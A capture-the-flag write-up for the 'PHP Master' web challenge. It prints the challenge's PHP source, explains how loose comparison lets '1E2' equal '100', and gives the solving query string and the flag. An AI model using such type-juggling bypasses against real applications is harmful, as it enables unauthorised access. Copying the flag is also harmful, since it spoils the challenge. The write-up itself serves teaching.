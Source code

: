 # PHP Master (50 points)

## Description

Another one of *those* challenges.

Target: http://challs.xmas.htsp.ro:3000/

Author: yakuhito

## Solution

```php
<?php

include('flag.php');

$p1 = $_GET['param1'];
$p2 = $_GET['param2'];

if(!isset($p1) || !isset($p2)) {
    highlight_file(__FILE__);
    die();
}

if(strpos($p1, 'e') === false && strpos($p2, 'e') === false  && strlen($p1) === strlen($p2) && $p1 !== $p2 && $p1[0] != '0' && $p1 == $p2) {
    die($flag);
}

?>
```

You just need to bypass the filters here. You can see that there are two comparison operators, one just checks the similarity (==), and the other checks the similarity of types (===). I opened the [documentation](https://www.php.net/manual/en/language.operators.comparison.php) and immediately found the answer.

```php
var_dump(100 == "1e2"); // 100 == 100 -> true
```

But we need to bypass one more filter: the presence of the letter "e" in the string. Simple as it is, just make it uppercase. As a result, we got such a request:

```url
http://challs.xmas.htsp.ro:3000/?param1=1E2&param2=100
```

Flag: X-MAS\{s0_php_m4ny_skillz-69acb43810ed4c42}

